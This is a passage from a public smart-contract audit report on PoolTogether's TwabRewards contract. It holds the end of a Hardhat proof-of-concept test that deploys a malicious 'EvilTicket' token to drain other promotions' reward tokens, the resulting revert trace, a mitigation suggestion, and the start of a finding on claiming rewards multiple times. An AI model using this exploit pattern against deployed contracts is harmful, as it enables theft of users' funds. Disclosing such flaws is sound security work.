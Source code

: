                 await expect(createPromotion(ticket.address))
                    .to.emit(twabRewards, 'PromotionCreated')
                    .withArgs(promotionIdOne);
                
                let evilTicketFactory = await getContractFactory('EvilTicket');
                let evilTicket = await evilTicketFactory.deploy('EvilTicket', 'TICK', 18, wallet1.address);
                let createPromotionTimestamp = (await ethers.provider.getBlock('latest')).timestamp;
                await expect(twabRewards.connect(wallet2).createPromotion(
                    evilTicket.address,
                    rewardToken.address,
                    tokensPerEpoch,
                    createPromotionTimestamp,
                    1,//epochDuration,
                    0,//epochsNumber,
                )).to.emit(twabRewards, 'PromotionCreated')
                  .withArgs(promotionIdTwo);

                await increaseTime(100);
                const epochIds = ['100'];
                await twabRewards.connect(wallet2).claimRewards(wallet2.address, promotionIdTwo, epochIds);
            });
        });

It results in the following error:

     1) TwabRewards
           exploit()
             this shouldnt happen:
         Error: VM Exception while processing transaction: reverted with reason string 'ERC20: transfer amount exceeds balance'
          at TwabRewardsHarness.verifyCallResult (@openzeppelin/contracts/utils/Address.sol:209)
          at TwabRewardsHarness.functionCallWithValue (@openzeppelin/contracts/utils/Address.sol:132)
          at TwabRewardsHarness.functionCall (@openzeppelin/contracts/utils/Address.sol:94)
          at TwabRewardsHarness._callOptionalReturn (@openzeppelin/contracts/token/ERC20/utils/SafeERC20.sol:92)
          at TwabRewardsHarness.safeTransfer (@openzeppelin/contracts/token/ERC20/utils/SafeERC20.sol:25)
          at TwabRewardsHarness.claimRewards (contracts/TwabRewards.sol:186)

#### Recommended Mitigation Steps

Maybe add a whitelist of trusted tickets?

**[PierrickGT (PoolTogether) confirmed](https://github.com/code-423n4/2021-12-pooltogether-findings/issues/1)** 

## [[H-06] Rewards can be claimed multiple times](https://github.com/code-423n4/2021-12-pooltogether-findings/issues/3)
_Submitted by johnnycash, also found by certora, cmichel, gpersoon, gzeon, harleythedog, kemmio, kenzo, sirhashalot, and 0x421f_

#### Impact

An attacker can claim its reward 256 \* `epochDuration` seconds after the timestamp at which the promotion started. The vulnerability allows him to claim a reward several times to retrieve all the tokens associated to the promotion.
